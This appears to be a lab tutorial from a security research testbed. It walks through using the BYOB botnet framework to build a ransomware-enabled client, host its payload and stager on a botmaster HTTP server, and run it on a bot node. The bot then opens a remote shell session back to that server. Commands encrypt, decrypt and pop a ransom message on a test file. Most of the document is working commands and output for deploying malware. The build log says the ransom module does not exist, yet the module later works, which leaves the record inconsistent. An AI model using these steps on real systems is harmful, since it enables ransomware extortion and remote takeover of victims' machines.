 ## Ransomware Attack
The data is encrypted through a ransomware by botmaster (`botmaster` in our case) and the files can only be seen if decrypted from bot nodes (`b1` in our case).

### Connection with client

We will use the `botmaster` node to generate a client. The client will have a ransomware
module built into it.

SSH to the botmaster node from your XDC
```shell
ssh botmaster
```

```shell
cd /opt/byob/byob.git/byob
python3 client.py --freeze botmaster.infra 1337 ransom
```
The output should look like this:

```shell


88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[>] Modules
        Adding modules...  -[-] can't add module: 'ransom' (does not exist)
(4 modules added to client)

[>] Imports
        Adding imports...-(32 imports from 4 modules)

[>] Payload
        Uploading payload...  -(hosting payload at: http://botmaster.infra:1338/clients/payloads/jIJ.py)

[>] Stager
        Uploading stager... -(hosting stager at: http://botmaster.infra:1338/clients/stagers/jIJ.py)

[>] Dropper
        Writing dropper...  (355 bytes written to /modules/clients/droppers/byob_jIJ.py)
        Compiling executable...
91 INFO: PyInstaller: 6.4.0, contrib hooks: 2024.1
91 INFO: Python: 3.9.2
.
.
.
19652 INFO: Appending PKG archive to custom ELF section in EXE
19714 INFO: Building EXE from EXE-00.toc completed successfully.
(22,541,192 bytes saved to file: /opt/byob/byob/dist/jIJ)
```

We now scp this module to our home directory on the client (for example, `b1`):
```shell
scp dist/jIJ b1.infra:
```

Lastly, startup the server
```shell
python3 -u server.py
```
The server should start and should start a prompt as follows:

```shell
88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[?]  Hint: show usage information with the 'help' command

[rishitsaiya @ /opt/byob/byob]>
```

Parallely, SSH to the b1 node from your XDC through different terminal
```shell
ssh b1
```
Execute the payload from here
```shell
./jIJ
```

At this point, the server should display a message like:
```shell
[+] Connection: 172.30.0.11
    Session: 0
    Started: Wed Nov  8 20:34:50 2023
```

Connect with the bot node using
```shell
shell 0
```
You can verify the socket connection by typing `ls` at prompt in server to check.

#### Test Files Creation
For demo purposes I have made `test.txt`, `test_dir/` on `b1` node.

```shell
rishitsaiya@b1:~$ ls
jIJ test_dir test.txt

rishitsaiya@b1:~$ cd test_dir/
rishitsaiya@b1:~/test_dir$ ls
test.txt
rishitsaiya@b1:~/test_dir$ cat test.txt 
This is a test file.
```

#### Random Key Pair Generation
We are using the keys generated from CryptoTools [https://cryptotools.net/rsagen] with a 2048 key length.

Let us call the keys _pub_ & _priv_ for our case. 

Usage line in `ransom.py` [here](https://github.com/STEELISI/DISCERN/blob/6d8fb527022693f06ef40d387ac0989e2c8f3456/byob/byob/modules/ransom.py#L63)
```shell
usage = 'ransom <encrypt/decrypt/payment> <file_name> [pub key] [priv key]'
```

#### Available Ransom Commands
There are three commands through `byob` bot. They are as follows:
- **encrypt** - `encrypt` would essentially encrypt the files with a key pair
- **decrypt** - `decrypt` would essentially decrypt the files with a key pair
- **payment** - `payment` would notify the bot nodes that you are hacked

#### Encrypt Ransom Command Usage

The **encrypt** command usage is as follows:

On `botmaster` node where the server is running, a typical command would look like as follows:

A command should look like this
```shell
[ 0 @ /home/rishitsaiya ]>ransom encrypt test.txt MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwr6x1f8XRzzi8Gvx8Uxys8Q/...IDAQAB MIIEpQIBAAKCAQEAwr6x1f8XRzzi8Gvx8Uxys8Q/...+kCUsXHpgh8oE=
```
It shall output with a message as follows:
```shell
test.txt encrypted
```

Parallely, if you observe the content of `test.txt` at the `b1` node, it shall be as follows:
```shell
rishitsaiya@b1:~$ cat test.txt
0DK4odBrMiSkh5WAoLlj94NuaGfmKpCggPCvX2LkC7DchCQu9nEwhyLM+/Nup8zyFYgiJQ==r
```
#### Decrypt Ransom Command Usage

The **decrypt** command usage is as follows:

On `botmaster` node where the server is running, a typical command would look like as follows:

A command should look like this
```shell
[ 0 @ /home/rishitsaiya ]>ransom decrypt test.txt MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwr6x1f8XRzzi8Gvx8Uxys8Q/...IDAQAB MIIEpQIBAAKCAQEAwr6x1f8XRzzi8Gvx8Uxys8Q/...+kCUsXHpgh8oE=
```
It shall output with a message as follows:
```shell
Decrypting files
```

Parallely, if you observe the content of `test.txt` at the `b1` node, it shall be as follows:
```shell
rishitsaiya@b1:~$ cat test.txt
This is a test file.
```

#### Payment Ransom Command Usage
The **payment** command usage is as follows:

On `botmaster` node where the server is running, a typical command would look like as follows:

A command should look like this
```shell
[ 0 @ /home/rishitsaiya ]>ransom payment
```
It shall output with a message as follows:
```shell
Launched a Windows Message Box with ransom payment information
```
This message can be re-altered if required through [here](https://github.com/STEELISI/DISCERN/blob/01bf739c1d0e06a202b4bb83e136a243a6e23dba/byob/byob/modules/ransom.py#L195).

Parallely, if you observe the terminal where the payload is running on the `b1` node, there will be message printed there:
```shell
Hackers are here!
```
This message can be re-altered if required through [here](https://github.com/STEELISI/DISCERN/blob/01bf739c1d0e06a202b4bb83e136a243a6e23dba/byob/byob/modules/ransom.py#L191).